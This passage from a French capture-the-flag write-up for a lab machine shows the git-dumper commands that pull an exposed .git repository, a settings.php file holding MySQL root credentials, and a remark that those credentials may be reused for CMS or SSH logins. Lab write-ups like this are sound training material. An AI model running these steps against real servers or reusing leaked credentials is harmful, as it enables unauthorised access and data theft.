 <div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-lightbulb mr-2 text-cyan-500"></i>
        <strong>Observation :</strong> La présence d'un répertoire .git indique une potentielle fuite de code source ou de secrets internes.
    </p>
</div>


## 🧩 Phase 2 — Exfiltration du dépôt Git exposé

### Utilisation de git-dumper

Installation et utilisation de l'outil **git-dumper** pour reconstituer le dépôt complet :

```bash
python3 -m venv env
source env/bin/activate
pip install git-dumper
git-dumper http://dog.htb/ dump
```

Une fois téléchargé, restauration des fichiers :

```bash
cd dump
git restore .
```

### Analyse du fichier settings.php

Fichier critique trouvé : `settings.php`

```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-key mr-2 text-green-500"></i>
        Identifiants MySQL récupérés : <code>root : BackDropJ2024DS2024</code>
    </p>
</div>

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-info-circle mr-2 text-amber-500"></i>
        <strong>Remarque :</strong> Le service MySQL n'est pas exposé, mais ces identifiants peuvent être réutilisés ailleurs (comptes CMS, SSH, etc.).
    </p>
</div>


## 🔎 Phase 3 — Énumération des utilisateurs Backdrop
